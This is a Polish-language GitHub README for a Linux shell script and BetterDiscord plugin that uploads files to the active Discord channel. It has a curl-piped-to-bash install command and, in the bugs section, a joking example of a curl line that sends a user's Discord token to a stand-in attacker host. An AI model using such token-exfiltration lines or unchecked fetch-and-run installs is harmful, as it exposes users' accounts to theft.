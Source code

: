# DiscordFileFromCLI
Skrypt powłoki umożliwiający wysyłanie plików na aktualnie wybrany kanał w aplikacji discorda.

Aktualnie wspierany jest tylko Linux i stabilna gałąź aplikacji discorda. 

# Instalacja
Jest skrypt instalacyjny, użycie tego polecenia powinno zainstalować skrypt oraz plugin.
```bash
bash -c "$(curl https://raw.githubusercontent.com/koliwbr/DiscordFileFromCLI/master/install.sh -s)" 
```
W razie problemów ręczna instalacja polega na dodaniu [sendtodiscord.sh](https://github.com/koliwbr/DiscordFileFromCLI/blob/master/sendtodiscord.sh) do PATH i zainstalowniu [FileFromCLI.plugin.js](https://github.com/koliwbr/DiscordFileFromCLI/blob/master/FileFromCLI.plugin.js) jako wtyczki do BeterDiscord

# Błędy
Jak ktoś (jeśli ktoś to czyta wogóle) znajdzie jakąś literówkę / błąd logiczny / lukę bezpieczeństwa - to sory, napisz mi na discordzie to to poprawię jak znajdę chwilę. Albo można wyklikać tu na GH, jeśli to nie będzie nic w stylu `curl -so /dev/null http://zło.przyklad/hahakradnetoken/${dctoken}/` to raczej będzie git. 
